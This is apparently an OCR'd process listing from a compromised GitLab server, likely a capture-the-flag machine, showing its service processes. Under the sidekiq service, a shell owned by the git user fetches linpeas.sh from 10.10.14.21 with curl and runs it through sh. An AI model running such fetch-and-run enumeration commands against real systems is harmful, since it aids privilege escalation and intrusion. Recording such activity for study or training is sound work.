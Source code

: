 git          510  0.2  0.5 854624 23548 ?        Ssl  18:00   0:04  |   _ /opt/gitlab/embedded/bin/gitaly /var/opt/gitlab/gitaly/config.toml
git          612  0.6  1.6 2361588 65172 ?       Sl   18:00   0:11  |       _ ruby /opt/gitlab/embedded/service/gitaly-ruby/bin/gitaly-ruby 510 /tmp/gitaly-ruby017110446/socket.0
git          620  0.6  1.6 2371860 65412 ?       Sl   18:00   0:12  |       _ ruby /opt/gitlab/embedded/service/gitaly-ruby/bin/gitaly-ruby 510 /tmp/gitaly-ruby017110446/socket.1
root         471  0.0  0.0   4236   796 ?        Ss   18:00   0:00  _ runsv redis
root         489  0.0  0.0   4380   660 ?        S    18:00   0:00  |   _ svlogd -tt /var/log/gitlab/redis
gitlab-+     497  0.5  0.1  41644  6444 ?        Ssl  18:00   0:09  |   _ /opt/gitlab/embedded/bin/redis-server 127.0.0.1:6379
root         472  0.0  0.0   4236   644 ?        Ss   18:00   0:00  _ runsv redis-exporter
root         484  0.0  0.0   4380   672 ?        S    18:00   0:00  |   _ svlogd -tt /var/log/gitlab/redis-exporter
gitlab-+     488  0.0  0.2 290840 11748 ?        Ssl  18:00   0:00  |   _ /opt/gitlab/embedded/bin/redis_exporter --web.listen-address=localhost:9121 --redis.addr=unix:///var/opt/gitlab/redis/redis.socket
root         473  0.0  0.0   4236   648 ?        Ss   18:00   0:00  _ runsv postgres-exporter
root         492  0.0  0.0   4380   708 ?        S    18:00   0:00  |   _ svlogd -tt /var/log/gitlab/postgres-exporter
gitlab-+     503  0.0  0.3 234948 14548 ?        Ssl  18:00   0:01  |   _ /opt/gitlab/embedded/bin/postgres_exporter --web.listen-address=localhost:9187 --extend.query-path=/var/opt/gitlab/postgres-exporter/queries.yaml
root         474  0.0  0.0   4236   692 ?        Ss   18:00   0:00  _ runsv gitlab-workhorse
root         491  0.0  0.0   4380   656 ?        S    18:00   0:00  |   _ svlogd -tt /var/log/gitlab/gitlab-workhorse
git          502  0.0  0.4 350592 19288 ?        Ssl  18:00   0:01  |   _ /opt/gitlab/embedded/bin/gitlab-workhorse -listenNetwork unix -listenUmask 0 -listenAddr /var/opt/gitlab/gitlab-workhorse/socket -authBackend http://localhost:8080 -authSocket /var/opt/gitlab/gitlab-rails/sockets/gitlab.socket -documentRoot /opt/gitlab/embedded/service/gitlab-rails/public -pprofListenAddr  -prometheusListenAddr localhost:9229 -secretPath /opt/gitlab/embedded/service/gitlab-rails/.gitlab_workhorse_secret -config config.toml
root         475  0.0  0.0   4236   796 ?        Ss   18:00   0:00  _ runsv sidekiq
root         496  0.0  0.0   4380   648 ?        S    18:00   0:00  |   _ svlogd -tt /var/log/gitlab/sidekiq
git         3993  0.0  0.0  29940  3712 ?        S    18:26   0:00  |       _ bash
git         4659  0.0  0.1  31976  5280 ?        S    18:31   0:00  |       |   _ curl 10.10.14.21/linpeas.sh
git         4660  0.5  0.0  18320  3184 ?        S    18:31   0:00  |       |   _ sh
git         5365  0.0  0.0  18320   972 ?        S    18:31   0:00  |       |       _ sh
git         5369  0.0  0.0  45808  3764 ?        R    18:31   0:00  |       |       |   _ ps fauxwww
git         5368  0.0  0.0  18320   972 ?        S    18:31   0:00  |       |       _ sh
root         476  0.0  0.0   4236   636 ?        Ss   18:00   0:00  _ runsv node-exporter
root         501  0.0  0.0   4380   664 ?        S    18:00   0:00  |   _ svlogd -tt /var/log/gitlab/node-exporter
gitlab-+     508  0.0  0.3  20108 16064 ?        Ssl  18:00   0:01  |   _ /opt/gitlab/embedded/bin/node_exporter --web.listen-address=localhost:9100 --collector.textfile.directory=/var/opt/gitlab/node-exporter/textfile_collector
root         477  0.0  0.0   4236   664 ?        Ss   18:00   0:00  _ runsv postgresql
root         498  0.0  0.0   4380   756 ?        S    18:00   0:00  |   _ svlogd -tt /var/log/gitlab/postgresql
gitlab-+     509  0.0  0.4  50080 17940 ?        Ss   18:00   0:00  |   _ /opt/gitlab/embedded/bin/postgres -D /var/opt/gitlab/postgresql/data
gitlab-+     595  0.0  0.1  50184  6104 ?        Ss   18:00   0:00  |       _ postgres: checkpointer process   
gitlab-+     596  0.0  0.1  50080  5792 ?        Ss   18:00   0:00  |       _ postgres: writer process   
gitlab-+     597  0.0  0.0  50080  3956 ?        Ss   18:00   0:00  |       _ postgres: wal writer process   
gitlab-+     598  0.0  0.1  50632  6708 ?        Ss   18:00   0:00  |       _ postgres: autovacuum launcher process   
gitlab-+     599  0.0  0.1  33000  4796 ?        Ss   18:00   0:00  |       _ postgres: stats collector process   